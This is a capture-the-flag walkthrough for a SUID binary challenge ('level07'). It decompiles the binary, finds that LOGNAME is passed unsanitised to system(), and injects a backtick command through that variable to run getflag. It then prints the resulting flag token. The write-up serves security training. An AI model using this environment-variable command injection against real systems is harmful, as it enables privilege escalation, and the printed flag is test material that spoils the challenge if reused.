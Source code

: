 ### Solution

1. **List files and check permissions**

	```bash
	ls -l
	```

	You will see the following SUID binary:

	```
	-rwsr-sr-x 1 flag07 level07 8805 Mar  5  2016 level07
	```

	The binary `level07` is **owned by `flag07`** and has the **SUID bit** set, meaning it executes with `flag07`'s privileges.

2. **Transfer the executable file to your host machine:**

	From your host, use `scp` to copy the file:

	```bash
	scp -P 4242 level07@<vm-ip>:~/level07 .
	```

3. **Analyze the binary with Ghidra**

	Examining the binary reveals the following, it reads the `LOGNAME` environment variable:

	```c
	char *pcVar1 = getenv("LOGNAME");
	asprintf(&local_1c, "/bin/echo %s ", pcVar1);
	system(local_1c);
	```

	This means: the program **constructs and executes a shell command** using whatever is inside `LOGNAME`, without sanitizing it.

4. **Exploit the insecure environment usage**

	You can inject a command using **backticks or `$()`** into the `LOGNAME` environment variable.

	Run this:

	```bash
	LOGNAME='`getflag`' ./level07
	```

	The program will execute:

	```bash
	/bin/echo `getflag`
	```

	Which gets expanded to:

	```
	/bin/echo Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
	```

	Output:

	```
	Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
	```

	You’ve successfully executed `getflag` with `flag07`’s privileges using environment variable injection.

